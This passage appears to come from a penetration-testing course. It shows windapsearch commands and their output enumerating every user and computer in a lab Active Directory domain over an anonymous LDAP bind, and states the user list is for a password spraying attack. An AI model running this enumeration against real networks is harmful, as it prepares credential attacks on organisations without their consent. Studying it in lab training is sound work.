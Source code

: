We can pull a listing of all domain users to use in a password spraying attack.

  LDAP Anonymous Bind

```shell-session
BusySec@htb[/htb]$ python3 windapsearch.py --dc-ip 10.129.1.207 -u "" -U
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 10.129.1.207
[+] Getting defaultNamingContext from Root DSE
[+]	Found: DC=INLANEFREIGHT,DC=LOCAL
[+] Attempting bind
[+]	...success! Binded as: 
[+]	 None

[+] Enumerating all AD users
[+]	Found 1024 users: 

cn: Guest
cn: DefaultAccount
cn: LOGISTICS$
cn: sqldev
cn: sqlprod
cn: svc-scan

<SNIP>
```

We can obtain information about all domain computers.

  LDAP Anonymous Bind

```shell-session
BusySec@htb[/htb]$ python3 windapsearch.py --dc-ip 10.129.1.207 -u "" -C
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 10.129.1.207
[+] Getting defaultNamingContext from Root DSE
[+]	Found: DC=INLANEFREIGHT,DC=LOCAL
[+] Attempting bind
[+]	...success! Binded as: 
[+]	 None

[+] Enumerating all AD computers
[+]	Found 5 computers: 

cn: DC01
operatingSystem: Windows Server 2016 Standard
operatingSystemVersion: 10.0 (14393)
dNSHostName: DC01.INLANEFREIGHT.LOCAL

cn: EXCHG01
operatingSystem: Windows Server 2016 Standard
operatingSystemVersion: 10.0 (14393)
dNSHostName: EXCHG01.INLANEFREIGHT.LOCAL

cn: SQL01
operatingSystem: Windows Server 2016 Standard
operatingSystemVersion: 10.0 (14393)
dNSHostName: SQL01.INLANEFREIGHT.LOCAL

cn: WS01
operatingSystem: Windows Server 2016 Standard
operatingSystemVersion: 10.0 (14393)
dNSHostName: WS01.INLANEFREIGHT.LOCAL

cn: DC02
dNSHostName: DC02.INLANEFREIGHT.LOCAL
```
